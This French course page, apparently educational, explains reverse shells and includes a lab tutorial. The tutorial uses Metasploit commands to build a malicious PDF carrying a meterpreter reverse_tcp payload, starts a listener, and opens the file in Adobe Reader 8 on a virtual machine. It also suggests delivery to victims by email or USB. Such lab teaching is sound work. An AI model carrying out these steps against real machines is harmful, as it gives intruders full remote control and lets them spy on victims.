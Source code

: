 # Reverse Shell

## Cours

Avant de parler de reverse shell, il faudrait tout d’abord rappeler ce qu’est un shell.
Un shell est une couche logicielle qui fournit l’interface utilisateur du système d’exploitation. ( [wikipedia](https://fr.wikipedia.org/wiki/Interface_syst%C3%A8me) )
Différents shells existent : CMD, sh, bash, Powershell,...

Une autre notion avant de comprendre ce qu’est un reverse shell est qu’est-ce qu’un port ?
Un port informatique du point de vue logiciel est un système permettant aux ordinateurs de recevoir ou d’émettre des informations. ( [wikipedia](https://fr.wikipedia.org/wiki/Port_informatique#:~:text=En%20informatique%2C%20port%20informatique%20ou,qui%20d%C3%A9signe%20un%20portage%20informatique.) )

### Qu’est ce qu’un reverse shell ?

Pour dire ça simplement, c’est lorsqu’un ordinateur se connecte à un autre ordinateur mais que l’ordinateur initiateur transmet son shell à la destination. Ainsi, ce type d’attaque donne à l’attaquant un shell interactif sur une machine.

### Comment cela fonctionne-t-il ?
Vous n’êtes pas sans savoir que votre routeur vous protège d’un grand nombre de menaces qui pourraient venir de l’extérieur grâce à un firewall. En effet ce dernier n’accepte que des requêtes vers le port 80 et 443 de l’extérieur pour le http et le https. Toutes les autres sont bloquées. Cependant, toutes les requêtes et connexions sortantes sont autorisées sur n’importe quel port car l’ordinateur du réseau est considéré comme une machine de confiance. Cela permet à un attaquant de passer outre le firewall mit en place par le routeur. 

L’attaque commence avec une machine qui écoute sur un port (il s’agit de la machine de l’attaquant). Ensuite, la machine victime exécutera une commande qui la connectera à la machine attaquante et lui transmettra sa session. 

Peut-être vous demanderez vous pourquoi la machine victime voudrait à un moment donné exécuter cette commande… Cela peut être utile dans le domaine professionnel ou personnel si vous avez un ordinateur distant que vous voulez utiliser pour telle ou telle raison depuis un autre ordinateur, cela est possible. Dans le cas d’une attaque la commande pourra s’exécuter suite au téléchargement d’un fichier exécutable ou d’un fichier pdf ouvert avec un visionneur de pdf qui n’a pas été mis à jour.

### Et dans la pratique… Comment on fait ? (Metasploit)
Pour commencer, un attaquant va créer ou télécharger un payload qu’il pourra envoyer à sa victime. Un payload est un fichier qui va exécuter du code malveillant, et dans notre cas ouvrir une connexion entre l’attaquant et la victime.

Le module ```exploit/windows/fileformat/adobe_pdf_embedded_exe``` dans Metasploit nous permet de créer un payload pdf contenant un fichier exe dans son en-tête qui sera exécuté à l’ouverture du pdf. Il faudra configurer LHOST et LPORT comme l’adresse et le port de l’attaquant ou d’un serveur auquel les deux ordinateurs peuvent se connecter.

Une fois le payload préparé, il suffit de l’envoyer à la victime. Toutes les techniques sont possibles (email, lien, clé usb,...)

Désormais, il faut mettre en place le “listener” pour écouter et attendre une connexion sur le port spécifié dans LPORT lors de la création du payload.
Le module ```exploit/multi/handler``` fonctionne très bien. Il faut ensuite préparer l’écoute en faisant : ```set payload windows/meterpreter/reverse_tcp``` et en renseignant le LHOST et LPORT du payload pour dire à metasploit que nous avons un payload utilisant le protocole tcp et que nous allons ouvrir un meterpreter s’il y a une connexion d’une machine victime. Le meterpreter est un shell interactif qui permet à l’attaquant de faire un grand nombre de choses, upload/download de fichiers, stream de webcam, voir l’écran, créer des fichiers, ouvrir des pages web,...
Il faudra ensuite taper la commande exploit pour que la machine se mette sur écoute.

A partir de là, il suffit d’attendre que la victime ouvre le fichier malveillant qu’elle a téléchargé et l’attaquant aura un accès total à la machine.

## Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk){:target="_blank"}

### Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

### ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

### ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

### ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez ```help``` pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !